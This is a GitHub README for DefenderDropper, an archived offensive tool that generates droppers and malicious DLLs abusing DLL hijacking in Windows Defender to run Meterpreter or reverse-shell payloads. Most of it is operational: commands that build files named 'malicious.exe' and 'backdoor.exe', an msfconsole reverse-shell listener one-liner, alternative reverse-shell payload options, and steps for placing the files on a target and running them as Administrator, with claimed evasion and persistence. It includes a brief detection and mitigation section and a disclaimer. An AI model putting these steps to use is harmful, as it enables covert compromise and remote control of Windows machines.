

# DefenderDropper

**An Advanced DLL Hijacking Payload Generator Exploiting Windows Defender Vulnerabilities**


[](https://github.com/HackScaleTeam/DefenderDropper/issues)
[](https://twitter.com/_hackscale_)
[](https://twitter.com/sam_X86_)
[](https://www.youtube.com/channel/UCGY_Cnhao2lebIIYYb2jovA)
[](https://python.org)
[](https://metasploit.com)
[](LICENSE)

# ⚠️ Project Archived

**DefenderDropper has been officially archived and is no longer under active development.**

This repository is preserved for **historical, educational, and research reference only**.

---

##  Successor Project: ShellCraft

Development has continued and expanded under a new, more modular framework:

 **ShellCraft**  
https://github.com/HackScaleTeam/ShellCraft

ShellCraft is a **clean redesign** that generalizes the original DefenderDropper concepts into a reusable, extensible payload construction framework.

### Why the migration?
- DefenderDropper was tightly coupled to a specific Defender execution chain
- ShellCraft introduces:
  - Modular architecture
  - Template-driven native builds
  - Explicit execution flow
  - Research-first design (not AV-bypass-first)

**All future updates, features, and research will happen in ShellCraft.**

---

## Status
-  No new features
-  No bug fixes
-  No pull requests accepted
-  Read-only reference

---


## Overview

DefenderDropper is a sophisticated payload generation tool designed to exploit DLL hijacking vulnerabilities within Windows Defender. Building upon the foundational research by [TwoSevenOneT](https://github.com/TwoSevenOneT/DefenderWrite), this tool automates the creation of advanced payloads capable of bypassing conventional security controls by leveraging legitimate Windows Defender processes.

**Inspired by**: [TwoSevenOneT/DefenderWrite](https://github.com/TwoSevenOneT/DefenderWrite)

## Key Features

*   **Windows Defender Exploitation**: Leverages DLL hijacking within Windows Defender's legitimate processes.
*   **Automated Payload Generation**: Streamlines the creation of ready-to-deploy droppers and malicious DLLs.
*   **Metasploit Integration**: Seamlessly integrates with Meterpreter and other Metasploit payloads.
*   **Static Compilation**: Generates payloads with no external runtime dependencies.
*   **Stealth Execution**: Achieves execution through trusted, legitimate system processes.
*   **Multiple Payload Support**: Offers versatility with various reverse shell and Meterpreter options.

## Getting Started

### Prerequisites

Ensure you have the following installed:

```bash
# Install dependencies on Debian/Kali-based systems
sudo apt update
sudo apt install python3 metasploit-framework mingw-w64 -y
```

### Installation

Clone the repository and navigate into the project directory:

```bash
git clone https://github.com/HackScaleTeam/DefenderDropper.git
cd DefenderDropper
```

## Usage

### Generate Payload

To generate a malicious executable and its corresponding DLL, specify the listening host (LHOST) and port (LPORT):

```bash
python3 defenderdropper.py <LHOST> <LPORT> -o malicious.exe
```

*Example: `python3 defenderdropper.py 10.0.2.147 4443 -o malicious.exe`*

### Start Metasploit Listener

Configure and start your Metasploit listener to receive the incoming connection:

```bash
msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST <LHOST>; set LPORT <LPORT>; exploit'
```

*Example: `msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_tcp; set LHOST 10.0.2.147; set LPORT 4443; exploit'`*

### Deployment Steps

1.  **Download `DefenderWrite.exe`**: Obtain the core exploit tool from [TwoSevenOneT/DefenderWrite](https://github.com/TwoSevenOneT/DefenderWrite) if you don't already have it.
2.  **Transfer Files**: On the target Windows VM, place the following three files in the *same directory*:
    *   `{exe_name}` (the generated dropper)
    *   `{dll_name}` (the generated shellcode DLL)
    *   `DefenderWrite.exe`
3.  **Start Listener**: Ensure your Metasploit listener is active on the specified LHOST and LPORT.
4.  **Execute Dropper**: Run `{exe_name}` *as Administrator* on the Windows VM.
   

# Demo


## Technical Overview

DefenderDropper operates by leveraging several advanced techniques:

*   **DLL Hijacking**: Exploits a known vulnerability in Windows Defender's update process to load a malicious DLL.
*   **Process Injection**: Injects shellcode into legitimate, trusted system processes to maintain stealth.
*   **Persistence**: Utilizes trusted Windows components for execution, enhancing persistence capabilities.
*   **Evasion**: Employs sophisticated methods to bypass common security controls and antivirus solutions.

## Attack Flow




## Project Structure

```
DefenderDropper/
├── defenderdropper.py    # Main payload generation script
├── DefenderWrite.exe     # Core exploit binary (from TwoSevenOneT)
├── LICENSE               # Project license file
├── README.md             # This documentation file
└── assets/
    ├── banner.jpg        # Project banner image
    ├── demo.gif          # Demonstration GIF
    └── digram.png        # Attack flow diagram
```
## Usage Examples

### Basic Meterpreter Payload

Generate a Meterpreter reverse TCP payload targeting `192.168.1.100` on port `4444`, saving the output as `backdoor.exe`:

```bash
python3 defenderdropper.py 192.168.1.100 4444 -o backdoor.exe
```

## Advanced Features

### Custom Payloads

DefenderDropper supports various Metasploit payloads. To customize the payload, modify the `generate_shellcode()` function within `defenderdropper.py`. Locate the line specifying `windows/x64/meterpreter_reverse_tcp` and replace it with your desired payload. Examples include:

```python
"-p", "windows/x64/shell_reverse_tcp",      # Simple reverse shell
"-p", "windows/meterpreter/reverse_https",  # HTTPS Meterpreter payload
"-p", "windows/x64/meterpreter/reverse_tcp",  # Standard x64 Meterpreter
```

## Defense & Mitigation

### Detection

*   **Monitor Process Anomalies**: Look for unusual child processes spawned by `msiexec.exe`.
*   **DLL File Monitoring**: Watch for unexpected DLL files appearing in Windows Defender directories.
*   **Analyze Process Hollowing**: Implement detection for process hollowing and other code injection techniques.

### Prevention

*   **Keep Systems Updated**: Regularly update Windows Defender and the operating system to patch known vulnerabilities.
*   **Application Whitelisting**: Implement strict application whitelisting policies to prevent unauthorized executables.
*   **Advanced Endpoint Protection**: Utilize Endpoint Detection and Response (EDR) solutions for enhanced threat detection.
*   **Regular Security Audits**: Conduct frequent security audits and penetration tests to identify weaknesses.

## Legal Disclaimer

This tool is provided for:

*   Security research and analysis
*   Authorized penetration testing
*   Educational purposes
*   Red team exercises

**Any illegal use of this tool is strictly prohibited.** The developers are not responsible for any misuse or damage caused by this tool. Always ensure you have explicit permission and proper authorization before testing any systems.

## Contributing

We welcome contributions from the cybersecurity community! If you'd like to contribute, please feel free to:

*   Fork the repository
*   Create feature branches
*   Submit pull requests
*   Report issues and suggest improvements

## Special Thanks

*   [TwoSevenOneT](https://github.com/TwoSevenOneT) for the original DefenderWrite research and inspiration.
*   The broader cybersecurity community for continuous support and improvement.

## License

This project is licensed under the MIT License. See the [LICENSE](https://github.com/HackScaleTeam/DefenderDropper/blob/main/LICENSE) file for full details.

---

*Security is a shared responsibility. Use this tool wisely and ethically.*

*Built with ❤️ for the cybersecurity community. Inspired by groundbreaking research from TwoSevenOneT.*
# Defender-Killer

